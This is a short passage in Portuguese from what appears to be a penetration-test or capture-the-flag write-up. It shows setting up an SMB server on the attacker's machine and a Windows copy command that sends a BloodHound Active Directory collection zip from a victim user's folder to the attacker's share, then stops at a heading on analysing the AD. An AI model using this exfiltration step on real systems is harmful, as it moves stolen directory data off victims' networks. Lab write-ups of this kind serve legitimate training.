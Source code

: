 Primeiro criamos um servidor SMB para poder receber o arquivo da vítima
![](attachment/3eefc6e617c343387a923dde08d81505.png)

Agora é apenas enviar da vítima -> Atacante
`copy C:\Users\SUSANNA_MCKNIGHT\20250516125849_BloodHound.zip \\10.13.72.32/loot\`
![](attachment/db7dd2be0be648991f9c3656ed2daddd.png)

#### Analisando o AD
